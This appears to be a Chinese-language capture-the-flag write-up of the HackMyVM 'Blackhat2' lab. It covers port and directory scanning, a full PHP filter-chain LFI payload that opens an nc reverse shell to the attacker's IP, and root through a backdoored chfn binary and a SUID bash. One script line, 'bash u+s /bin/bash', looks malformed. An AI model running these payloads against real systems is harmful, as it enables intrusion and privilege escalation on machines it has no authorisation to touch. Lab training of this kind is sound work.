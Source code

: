 # hmv_Blackhat2

**靶机**：[HackMyVM - Blackhat2](https://hackmyvm.eu/machines/machine.php?vm=Blackhat2)
**难度**：黄色
**目标 IP**：192.168.205.218
**本机 IP**：192.168.205.141

## 1. 端口枚举及服务探测

首先，使用 `nmap` 扫描目标 IP 的开放端口：

```bash
┌──(kali㉿kali)-[~/test]
└─$ nmap -sV -sT -O -Pn -n -p- 192.168.205.218
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-31 21:27 CST
Nmap scan report for 192.168.205.218
Host is up (0.00034s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
MAC Address: 08:00:27:17:26:A8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

从 `nmap` 扫描结果来看，目标机器开放了 22 (SSH) 和 80 (HTTP) 端口。接下来，我们对 HTTP 服务进行进一步的目录爆破。

## 2. Web 服务探测与 PHP 过滤器链利用

通过使用 `gobuster` 进行目录爆破，找到了几个有用的路径：

```bash
┌──(kali㉿kali)-[~/test]
└─$ gobuster dir -u http://192.168.205.218 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,html,txt,md -b 404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.205.218
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,md
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/html                (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 996]
/index.php            (Status: 200) [Size: 996]
/.php                 (Status: 403) [Size: 280]
/news.php             (Status: 200) [Size: 3418]
/2021                 (Status: 200) [Size: 31875]
/2022                 (Status: 200) [Size: 34213]
/2023                 (Status: 200) [Size: 36067]
/.php                 (Status: 403) [Size: 280]
/.html                (Status: 403) [Size: 280]
/server-status        (Status: 403) [Size: 280]
```

* `/index.php` 和 `/index.html` 的文件大小相同，没有发现有用的信息。
* `/news.php` 页面要求输入一个邮箱地址。输入一个有效的邮箱后，可以访问到 `/2021`, `/2022`, `/2023` 等新闻页面。

不过，在 `/news.php` 页面中，URL 中有一个异常的地方，提示我们可以尝试利用 **LFI**（本地文件包含）漏洞。

## 3. 利用 PHP Filter 过滤器链

在尝试了 LFI 攻击后，我发现这个页面实际上是可以利用 **PHP 过滤器链** 来执行命令。经过一些思考后，我决定使用 [PHP Filter Chain Generator](https://github.com/synacktiv/php_filter_chain_generator) 来生成一个过滤器链。该工具帮助我们构建可以通过 `php://filter` 绕过 PHP 的安全限制并执行任意命令的链。

```bash
┌──(kali㉿kali)-[~/test]
└─$ git clone https://github.com/synacktiv/php_filter_chain_generator.git
正克隆到 'php_filter_chain_generator'...
...
```

然后，我使用生成的链条来获取反向 shell：

```bash
http://192.168.205.218/news.php?year=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&0=nc -e /bin/bash 192.168.205.141 8888
```

## 4. 获得稳定的 Shell

获取反向 shell 后，通过以下命令获得稳定的交互式 TTY shell：

```bash
script /dev/null -c bash  
ctrl+z  
stty raw -echo; fg  
reset xterm  
export TERM=xterm  
echo $SHELL  
export SHELL=/bin/bash  
stty rows 59 cols 236
```

## 5. 提权

在系统中没有发现明显的提权点，但通过 `dpkg -V` 命令查看系统文件的完整性。

```bash
bash-5.2$ dpkg -V
missing   c /etc/apache2/sites-available/000-default.conf
missing   c /etc/apache2/sites-available/default-ssl.conf
??5?????? c /etc/grub.d/10_linux
??5??????   /usr/bin/chfn
```

发现 `/usr/bin/chfn` 被修改，且该文件可能存在提权漏洞。我们将它拖入ida分析一下，我们会发现如下命令字符串：

![image](https://github.com/user-attachments/assets/fe1370ad-f488-4462-a38d-69b1a5acdb3b)
这段字符串表示的是：

```bash
nohup /tmp/system </dev/null >/dev/null 2>&1 &
```

`nohup`：nohup是一个POSIX命令，意思是“不挂断”
`/tmp/system`：恶意脚本

我们可以使用 `chfn` 命令修改 `/bin/bash` ,将它设成我们可以运行的权限，从而获得 root 权限。

```bash
bash-5.2$ vi system
bash-5.2$ cat system 
bash u+s /bin/bash
bash-5.2$ /usr/bin/chfn
Changing the user information for root
Enter the new value, or press ENTER for the default
        Full Name [root]: 
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
bash-5.2$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 23  2023 /bin/bash
bash-5.2$ bash -p
bash-5.2# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

通过此方式，成功获得了 root 权限。